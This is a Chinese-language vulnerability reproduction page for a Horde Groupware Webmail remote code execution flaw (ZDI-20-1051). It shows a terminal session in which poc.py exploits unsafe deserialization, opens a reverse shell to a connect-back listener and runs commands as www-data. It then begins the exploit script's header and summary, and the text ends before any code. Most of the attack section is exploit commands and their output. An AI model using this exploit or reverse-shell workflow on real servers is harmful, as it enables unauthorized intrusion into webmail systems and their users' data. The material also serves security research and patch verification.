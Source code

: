 Horde Groupware Webmail 远程命令执行漏洞
========================================

一、漏洞简介
------------

Horde Groupware
Webmail是美国Horde公司的一套基于浏览器的企业级通信套件。Horde Groupware
Webmail中存在代码注入漏洞。该漏洞源于外部输入数据构造代码段的过程中，网络系统或产品未正确过滤其中的特殊元素。攻击者可利用该漏洞生成非法的代码段，修改网络系统或组件的预期的执行控制流。

二、漏洞影响
------------

三、复现过程
------------

    saturn:~ mr_me$ ./poc.py
    (+) usage ./poc.py <target> <path> <user:pass> <connectback:port>
    (+) eg: ./poc.py 172.16.175.148 /horde/ hordeuser:pass123 172.16.175.1:1337
     
    saturn:~ mr_me$ ./poc.py 172.16.175.148 /horde/ hordeuser:pass123 172.16.175.1:1337
    (+) targeting http://172.16.175.145/horde/
    (+) obtained session iefankvohbl8og0mtaadm3efb6
    (+) inserted our php object
    (+) triggering deserialization...
    (+) starting handler on port 1337
    (+) connection from 172.16.175.145
    (+) pop thy shell!
    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    pwd
    /var/www/horde/services
    uname -a
    Linux target 4.9.0-11-amd64 #1 SMP Debian 4.9.189-3+deb9u1 (2019-09-20) x86_64 GNU/Linux
    exit
    *** Connection closed by remote host ***
    (+) repaired the target!

> poc.py

    #!/usr/bin/env python3
    """
    Horde Groupware Webmail Edition Sort sortpref Deserialization of Untrusted Data Remote Code Execution Vulnerability

    Identifiers: ZDI-CAN-10436 / ZDI-20-1051
    Found by ..: mr_me
    Tested on .: Horde Groupware Webmail 5.2.22 (pear installation) on Debian 9 Stretch w/ Apache/2.4.25 & PHP 7.0.33

    Summary:
    ========

    It's possible to reach a deserialization of untrusted data vulnerability within the constructor of the IMP_Prefs_Sort class. A low privileged authenticated attacker can leverage this to achieve remote code execution.
